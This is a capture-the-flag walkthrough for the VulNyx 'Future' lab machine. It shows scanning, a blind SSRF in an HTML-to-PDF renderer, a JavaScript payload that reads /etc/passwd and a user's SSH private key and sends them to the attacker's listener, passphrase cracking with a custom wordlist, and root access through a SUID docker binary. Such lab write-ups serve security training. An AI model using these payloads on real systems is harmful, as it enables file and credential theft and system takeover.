







# CTF Penetration Testing

## Platform: VulNyx

### Machine: [Future](https://vulnyx.com/#future)

- Machine type:  Linux
- Machine difficulty: 🟨 Medium

#### Skills Learned

- **Server-Side Request Forgery (SSRF)** - Blind SSRF
- **Local File Inclusion (LFI)**
- **Password Cracking** - Custom Wordlists
- **Linux Privilege Escalation** - Special Permissions

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.247.128  netmask 255.255.255.0  broadcast 192.168.247.255

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ fping 192.168.247.226

192.168.247.226 is alive

┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 192.168.247.226 -T5 

[SNIP]

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://192.168.247.226

http://192.168.247.226 [200 OK] Apache[2.4.57], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[192.168.247.226], Title[future.nyx]

┌──(nabla㉿kali)-[~]
└─$ echo -e '192.168.247.226\tfuture.nyx' | sudo tee -a /etc/hosts

192.168.247.226 future.nyx
```







```
┌──(nabla㉿kali)-[~]
└─$ vim test.html

<!DOCTYPE html>
<body>
    <h1>PHP Test Page</h1>
</body>
</html>
```



**Server-Side Request Forgery (SSRF)**

```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337
listening on [any] 1337 ...

[CONTINUE]
```

```html
<!DOCTYPE html>
<html lang="en">
<body>
	
</body>
</html>
```



```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.226] 43206
GET /SSRF_test HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: en,*
Host: 192.168.247.128:1337
```

**Local File Inclusion (LFI)**

```html
<!DOCTYPE html>
<html lang="en">
<body>
    <h1>PHP Test Page</h1>
	<script>
	    // Create an XMLHttpRequest to read a local file
	    var fileRequest = new XMLHttpRequest();
	    // Create another XMLHttpRequest to exfiltrate the file content
	    var exfiltrationRequest = new XMLHttpRequest();
	    // Attempt to read the local file /etc/passwd via file:// protocol
	    fileRequest.open("GET", "file:///etc/passwd", true);
	    fileRequest.send();
	    // When the file is successfully loaded
	    fileRequest.onload = function () {
	        // Check if the request is fully completed
	        if (fileRequest.readyState === 4) {
	            // Base64-encode the file content
	            var encodedData = btoa(this.response);
	            // Construct the exfiltration URL
	            var targetUrl = 'http://192.168.247.128:1337/?data=' + encodedData;
	            // Send the encoded data to the attacker's server
	            exfiltrationRequest.open("GET", targetUrl, true);
	            exfiltrationRequest.send();
	        }
	    };
	    // Handle error if file could not be read
	    fileRequest.onerror = function () {
	        document.write('<a>Error reading file!</a>');
	    };
	</script>
</body>
</html>
```



```
[CONTINUE]

GET /?data=cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYml... HTTP/1.1
Origin: file://
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: en,*
Host: 192.168.247.128:1337
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -n 'cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYml...' | base64 -d

[SNIP]

root:x:0:0:root:/root:/bin/bash
marty.mcfly:x:1000:1000::/home/marty.mcfly:/bin/bash
emmett.brown:x:1001:1001::/home/emmett.brown:/bin/bash
```

```javascript
fileRequest.open("GET", "file:///home/marty.mcfly/.ssh/id_rsa", true);
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -n 'LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRUFBQUFBQ21GbGN6STFOaTFqZEhJQUFBQUdZbU55ZVhCMEFBQUFHQUFBQUJDanZiKzdENwpzYXcvS1dJK3hVREc4b0FBQUFFQUFBQUFFQUFBR1hBQUFBQjNOemFDMXljMkVBQUFBREFRQUJBQUFCZ1FEUjBwd1VNLzNJCm5MZ1c...' | base64 -d > id_rsa
```

```
┌──(nabla㉿kali)-[~]
└─$ chmod 600 ./id_rsa 

┌──(nabla㉿kali)-[~]
└─$ ssh 'marty.mcfly'@'future.nyx' -i ./id_rsa

Enter passphrase for key './id_rsa': 
❌
```



**Password Cracking**

```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://future.nyx/FUZZ.html -mc 200 -t 100 -ic

[SNIP]

index                   [Status: 200, Size: 1727, Words: 366, Lines: 69, Duration: 39ms]
page                    [Status: 200, Size: 714, Words: 200, Lines: 21, Duration: 17ms]
test                    [Status: 200, Size: 1336, Words: 282, Lines: 39, Duration: 91ms]
1955                    [Status: 200, Size: 3808, Words: 272, Lines: 116, Duration: 44ms]
2015                    [Status: 200, Size: 3786, Words: 267, Lines: 117, Duration: 2364ms]
1885                    [Status: 200, Size: 3869, Words: 277, Lines: 117, Duration: 694ms]
homework                [Status: 200, Size: 3318, Words: 480, Lines: 95, Duration: 422ms]
```

```
┌──(nabla㉿kali)-[~]
└─$ vim html_pages.txt 

index
page
test
1955
2015
1885
homework

┌──(nabla㉿kali)-[~]
└─$ i=1; for page in $(cat html_pages.txt); do cewl -m 6 -w wordlist$i.txt http://future.nyx/$page.html; ((i++)); done

┌──(nabla㉿kali)-[~]
└─$ cat wordlist1.txt wordlist2.txt wordlist3.txt wordlist4.txt wordlist5.txt wordlist6.txt wordlist7.txt | tee wordlist.txt | wc -l

302
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh2john id_rsa > passphrase_hash.txt

┌──(nabla㉿kali)-[~]
└─$ john --wordlist=wordlist.txt passphrase_hash.txt

[SNIP]

inadvertently    (id_rsa)
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh 'marty.mcfly'@'future.nyx' -i ./id_rsa

Enter passphrase for key './id_rsa': 

Linux future 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

marty.mcfly@future:~$ 
```

```
marty.mcfly@future:~$ ls -la /home/marty.mcfly

total 32
drwxr-xr-x 4 marty.mcfly marty.mcfly 4096 Mar 24  2024 .
drwxr-xr-x 4 root        root        4096 Mar 23  2024 ..
lrwxrwxrwx 1 root        root           9 Mar 23  2024 .bash_history -> /dev/null
-rw-r--r-- 1 marty.mcfly marty.mcfly  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 marty.mcfly marty.mcfly 3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 marty.mcfly marty.mcfly 4096 Mar 23  2024 .local
-rw-r--r-- 1 marty.mcfly marty.mcfly  807 Apr 23  2023 .profile
drwx------ 2 marty.mcfly marty.mcfly 4096 Mar 24  2024 .ssh
-r-------- 1 marty.mcfly marty.mcfly   33 Mar 23  2024 user.txt

marty.mcfly@future:~$ cat /home/marty.mcfly/user.txt

fe12df45c64c362ec68abd9c27467e35 🚩
```

**Linux Privilege Escalation**

```
marty.mcfly@future:~$ find / -perm -4000 2> /dev/null

[SNIP]

/usr/bin/docker
```


```
marty.mcfly@future:~$ /usr/bin/docker run -v /:/mnt --rm -it alpine chroot /mnt sh

Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
fe07684b16b8: Pull complete 
Digest: sha256:8a1f59ffb675680d47db6337b49d22281a139e9d709335b492be023728e11715
Status: Downloaded newer image for alpine:latest

# whoami

root
```

```
# ls -la /root/

total 32
drwx------  4 root root 4096 Mar 25  2024 .
drwxr-xr-x 18 root root 4096 Feb 12  2024 ..
lrwxrwxrwx  1 root root    9 Mar 23  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root   20 Mar 25  2024 .lesshst
drwxr-xr-x  3 root root 4096 Feb 12  2024 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Feb 12  2024 .ssh
-r--------  1 root root   33 Mar 23  2024 root.txt

# cat /root/root.txt

69c965c53f43ec68d503247796604b3d 🚩
```


---
---
